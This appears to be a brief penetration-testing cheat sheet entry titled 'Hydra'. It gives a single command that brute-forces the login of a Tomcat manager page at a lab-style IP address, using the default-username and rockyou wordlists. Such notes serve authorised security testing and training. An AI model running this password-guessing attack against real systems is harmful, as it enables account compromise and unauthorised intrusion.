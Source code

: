 # Hydra
## web login form:
```
hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.129.35.106 http-get /manager/html
```



